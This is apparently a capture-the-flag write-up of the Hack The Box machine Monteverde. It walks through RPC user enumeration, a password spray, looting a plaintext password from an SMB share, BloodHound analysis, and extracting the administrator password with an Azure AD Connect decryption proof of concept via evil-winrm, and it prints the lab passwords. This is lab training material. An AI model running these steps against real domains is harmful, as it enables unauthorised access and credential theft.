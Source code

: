 # Monteverde

## Summary

[Monteverde](https://app.hackthebox.com/machines/Monteverde) presents as a <mark style="color:yellow;">medium-rated</mark> challenge, characterized by a relatively straightforward initial access point yet unique EoP[^1] tactic. Following comprehensive enumeration of RPC and executing a password spray attack, we successfully acquire valid domain credentials. A subsequent sweep of SMB yields another set of credentials, enabling us to solidify our foothold. The path to privilege escalation involves leveraging Azure AD[^2] Connect through a PoC[^3] and acquiring the `administrator` account credentials.

<table><thead><tr><th width="83" align="right">Step</th><th width="201">Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>RPC enumeration</td><td><a href="../../services/shares/smb-139-445.md#rpc">rpcclient</a></td><td>Usernames</td></tr><tr><td align="right">2</td><td>Password spray</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a></td><td>Credentials</td></tr><tr><td align="right">3</td><td>SMB enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a></td><td>Foothold</td></tr><tr><td align="right">4</td><td>Domain enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a>, <a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/bloodhound">BloodHound</a></td><td>Non-default group</td></tr><tr><td align="right">5</td><td>Research</td><td><a href="https://github.com/VbScrub/AdSyncDecrypt">PoC</a></td><td><a data-footnote-ref href="#user-content-fn-4">EoP</a></td></tr></tbody></table>

## Recon

### Port Scan

Let's start, as we always do, with a [port scan](broken-reference) (Figure 1).

```bash
nmap-scan.sh 10.10.10.172
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><img src="../../.gitbook/assets/monte_nmap.png" alt=""><figcaption><p>Figure 1: Nmap's output.</p></figcaption></figure>

Before moving forward, we should add the hostname (`monteverde`), the domain (`megabank.local`), and the FQDN (`monteverde.megabank.local`) to our local DNS file.

```bash
grep monte /etc/hosts
10.10.10.172    monteverde megabank.local monteverde.megabank.local
```

### SMB Enumeration

Trying to get information from the SMB does not work, but we can retrieve a username list via RPC (Figure 2). We can copy paste this list into a file and then extract the usernames.

```bash
# enumerating the SMB server via NULL session
nxc smb monteverde -u '' -p '' --shares
# enumerating the SMB server via guest session
nxc smb monteverde -u 'guest' -p '' --shares
# enumerating the SMB server via anonymous session
nxc smb monteverde -u 'x7331' -p '' --shares
# enumerating rcp port
rpcclient -U '' 10.10.10.172 -N
rpcclient $> enumdomusers
# copy and paste the users to a file
nano dom_users
# extract usernames
cat dom_users | awk -F'[' '{print $2}' | awk -F']' '{print $1}' > usernames
```

<figure><img src="../../.gitbook/assets/monte_smb_enum.png" alt=""><figcaption><p>Figure 2: Retrieving domain users via a RPC NULL session.</p></figcaption></figure>

After obtaining a username list, the first thing on our [AD Checklist](broken-reference) is to check for [ASREPRoasting](../../tl-dr/active-directory/attacks/as-reproasting.md). Unfortunately, no account seems to be vulnerable. Next, we can try a password-spray attack and by doing that we get a pair of credentials: `SABatchJobs:SABatchJobs` (Figure 3).

{% code overflow="wrap" %}
```bash
# performing an ASREPRoasting attack
nxc ldap monteverde.megabank.local -u usernames -p '' --asreproast asrep_users
# performing a password-spray attack
nxc ldap monteverde.megabank.local -u usernames -p usernames --continue-on-success | grep +
```
{% endcode %}

<figure><img src="../../.gitbook/assets/monte_pass_spray.png" alt=""><figcaption><p>Figure 3: Performing a password spray attack.</p></figcaption></figure>

## Foothold

### SMB Enumeration (2)

The `sabatchjobs` account has `READ` access to 2 non-default shares: `azure_uploads` and `users$` (Figure 4).

```bash
nxc smb 10.10.10.172 -u sabatchjobs -p sabatchjobs_pass --shares
```

<figure><img src="../../.gitbook/assets/monte_shares.png" alt=""><figcaption><p>Figure 4: Enumerating the SMB shares as <code>sabatchjobs</code>.</p></figcaption></figure>

By spidering both shares, we notice that `azure_uploads` is empty, but `users$` has one very interesting file under `mhope`'s directory: `azure.xml` (Figure 5).

{% code overflow="wrap" %}
```bash
# spidering the azure_uploads share
nxc smb 10.10.10.172 -u sabatchjobs -p sabatchjobs_pass --spider azure_uploads --regex . --depth 1
# spidering the users$ share
nxc smb 10.10.10.172 -u sabatchjobs -p sabatchjobs_pass --spider users\$ --regex . --depth 1
```
{% endcode %}

<figure><img src="../../.gitbook/assets/monte_azure_xml.png" alt=""><figcaption><p>Figure 5: Spidering the SMB shares.</p></figcaption></figure>

Downloading and inspecting the file locally reveals a plaintext password (Figure 6).

{% code overflow="wrap" %}
```bash
# downloading the file
nxc smb 10.10.10.172 -u sabatchjobs -p sabatchjobs_pass --share users\$ --get-file /mhope/azure.xml ./azure.xml
# inspecting the file
cat azure.xml
```
{% endcode %}

<figure><img src="../../.gitbook/assets/monte_azure_pass.png" alt=""><figcaption><p>Figure 6: Retrieving a plaintext password from the <code>azure.xml</code> file.</p></figcaption></figure>

We can safely assume that the password belongs to `mhope`, but we will also check for password reuse as well as if `mhope` has WinRM access. If it has, we will also read the `user.txt` flag 🚩 (Figure 7).&#x20;

```bash
# writing the password to a file
echo "4n0therD4y@n0th3r$" > mhope_pass
# checking for password reuse
nxc smb 10.10.10.172 -u usernames -p mhope_pass --continue-on-success
# checking for WinRM access
nxc winrm 10.10.10.172 -u mhope -p mhope_pass
# reading the user flag
nxc winrm 10.10.10.172 -u mhope -p mhope_pass -X 'gc c:\users\mhope\desktop\user.txt'
```

<figure><img src="../../.gitbook/assets/monte_mhope.png" alt=""><figcaption><p>Figure 7: Checking for password reuse, WinRM access, and reading the user flag.</p></figcaption></figure>

## EoP[^4]

### Domain Enumeration

Let's use our foothold to collect domain information with [NetExec](../../tl-dr/active-directory/ad-tools/netexec.md), and then upload it to and analyze it with [BloodHound](../../tl-dr/active-directory/ad-tools/bloodhound.md). The only interesting information we can find there, is that `mhope` is member of the `Azure Admins` group (Figure 8).

{% code overflow="wrap" %}
```bash
# collecting domain information
nxc ldap 10.10.10.172 -u mhope -p mhope_pass -k --bloodhound -ns 10.10.10.172 -c Group,LocalADmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn
```
{% endcode %}

<figure><img src="../../.gitbook/assets/monte_bh.png" alt=""><figcaption><p>Figure 8: The <code>Azure Admins</code> domain group.</p></figcaption></figure>

### Azure AD Connect

Based on [this](https://blog.xpnsec.com/azuread-connect-for-redteam/) post, it seems possible to exploit the Azure AD[^2] Connect service. This is the service responsible for syncing the local AD with Azure AD. In brief, the goal of this exploitation process is to access the configuration of the local database, grab the credentials for the account that handles this syncing process, and decrypt them.

Although it sounds complicated, there is already a [PoC](https://github.com/VbScrub/AdSyncDecrypt) available. After downloading the [`AdDecrypt.zip`](https://github.com/VbScrub/AdSyncDecrypt/releases/tag/v1.0) file, we can follow the guidance on the PoC's repo and get the `administrator`'s credentials (Figure 9).

{% code overflow="wrap" %}
```bash
# connecting to the machine via WinRM
evil-winrm -i 10.10.10.172 -u mhope -p $(cat mhope_pass)
# uploading the required files
upload AdDecrypt.exe
upload mcrypt.dll
# changing to the specified directory
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"
# executing the binary
c:\users\mhope\documents\AdDecrypt.exe -FullSQL
```
{% endcode %}

<figure><img src="../../.gitbook/assets/monte_poc.png" alt=""><figcaption><p>Figure 9: Executing the exploit and obtaining the <code>administrator</code>'s credentials.</p></figcaption></figure>

Finally, we can use the `administrator`'s credentials to read the `root.txt` flag 🚩  (Figure 10).

{% code overflow="wrap" %}
```bash
# writing the password to a file
echo "d0m@in4dminyeah!" > admin_pass
# reading the root flag
nxc smb 10.10.10.172 -u administrator -p admin_pass -x 'type c:\users\administrator\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/monte_root.png" alt=""><figcaption><p>Figure 10: Reading the root flag.</p></figcaption></figure>

[^1]: Escalation of Privileges

[^2]: Active Directory

[^3]: Proof of Concept

[^4]: Elevation of Privileges
